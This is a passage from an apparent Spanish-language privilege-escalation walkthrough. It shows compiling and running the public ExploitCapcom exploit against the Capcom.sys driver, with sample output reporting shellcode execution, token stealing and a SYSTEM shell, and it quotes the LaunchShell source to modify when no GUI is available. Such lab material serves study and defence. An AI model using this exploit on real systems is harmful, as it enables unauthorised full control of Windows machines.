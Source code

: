 Esto confirma que el driver fue cargado.

---

## 9) Compilar y ejecutar `ExploitCapcom.exe` para escalar

Compilar [`ExploitCapcom.exe`](https://github.com/tandasat/ExploitCapcom)

Ejecutar el binario:

```
.\ExploitCapcom.exe
```

Salida de ejemplo del exploit:

```
[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

**Qué hace**: el exploit obtiene handle sobre el driver, coloca shellcode en memoria del kernel/espacio permitido, ejecuta shellcode, realiza *token stealing* y lanza una shell con privilegios `NT AUTHORITY\SYSTEM`.

---

## 10) Alternativa sin GUI — modificar `ExploitCapcom.cpp`

El texto indica que si no hay acceso GUI (no se puede abrir `cmd.exe` localmente), hay que modificar el código fuente `ExploitCapcom.cpp` (línea 292 en el ejemplo) para cambiar el programa que se lanza tras explotar el driver.

Fragmento:

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

